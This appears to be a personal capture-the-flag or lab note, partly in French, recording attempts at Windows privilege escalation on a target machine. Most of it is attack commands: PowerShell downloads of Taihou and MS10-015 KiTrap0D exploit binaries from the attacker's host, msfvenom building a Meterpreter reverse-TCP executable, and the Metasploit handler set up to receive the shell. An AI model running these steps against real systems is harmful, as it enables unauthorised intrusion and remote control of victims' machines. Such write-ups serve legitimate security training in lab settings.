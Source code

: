 
## Use Unattended install

cf: https://toshellandback.com/2015/11/24/ms-priv-esc/



## Upload Taihou64.exe

```
Invoke-WebRequest http://10.10.14.32:8000/Taihou64.exe -OutFile Taihou64.exe   : not working

(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/Taihou64.exe', 'Taihou64.exe')   : ok
dir
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/Taihou32.exe', 'Taihou32.exe') 
```

On lance les 2, rien ne se passe.


wget https://github.com/amonsec/exploit/raw/master/windows/privs/MS10-015-KiTrap0D/vdmallowed.exe
wget https://github.com/amonsec/exploit/raw/master/windows/privs/MS10-015-KiTrap0D/vdmexploit.dll

(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/vdmallowed.exe', 'vdmallowed.exe') 
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/vdmexploit.dll', 'vdmexploit.dll') 


Not working....


## Metasploit 

### Build reverse shell

Build a reverse shell
```
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4445 -f exe > msf_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```


Upload it & run it
```
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/msf_shell.exe', 'msf_shell.exe') 
```

### Handler
Before upload prepare msf handler
```
# msfconsole

msf > use exploit/multi/handler 

msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf exploit(multi/handler) > set LHOST 10.10.14.32
LHOST => 10.10.14.32
msf exploit(multi/handler) > set LPORT 4445
```